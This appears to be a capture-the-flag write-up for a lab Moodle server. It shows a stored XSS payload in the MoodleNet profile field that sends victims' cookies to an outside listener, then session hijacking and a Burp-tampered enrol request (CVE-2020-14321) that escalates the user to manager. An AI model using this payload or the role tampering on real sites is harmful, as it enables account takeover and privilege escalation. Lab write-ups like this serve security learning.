 In the history of the logged user we can see that Manuel Phillips was here.

![image-20210406171351350](img/image-20210406171351350.png)

That probably means he was checking our MoodleNet profile. 

## Exploitation

I found a stored XSS vulnerability https://moodle.org/mod/forum/discuss.php?d=410839

You have to edit your profile, add in the `Module Net Profile` : 

```html
<script>document.location='http://10.10.14.67:4444/?c='+document.cookie</script>
```

We will get the cookie of Manuel Phillips now.

That was sucessful ! 

![image-20210406171616758](img/image-20210406171616758.png)

Replace your current cookie with this one and we are Manuel Phillips.

![image-20210406171700689](img/image-20210406171700689.png)





After a while I found a github with a recent exploit where we can become manager and then use the administrator administration panel.

The Github : https://github.com/HoangKien1020/CVE-2020-14321

The CVE on the official website :  https://moodle.org/mod/forum/discuss.php?d=407393#p1644268

Following the video on the github we can use burp to become a manager.

First you have to go to this page http://moodle.schooled.htb/moodle/user/index.php?id=5

then "Enrol users". Choose Lianne Carter as an example, intercept with burp and modify two values.

```
userlist%5B%5D=4&roletoassign=5
userlist%5B%5D=<your_id>&roletoassign=1
```



![image-20210406180024054](img/image-20210406180024054.png)
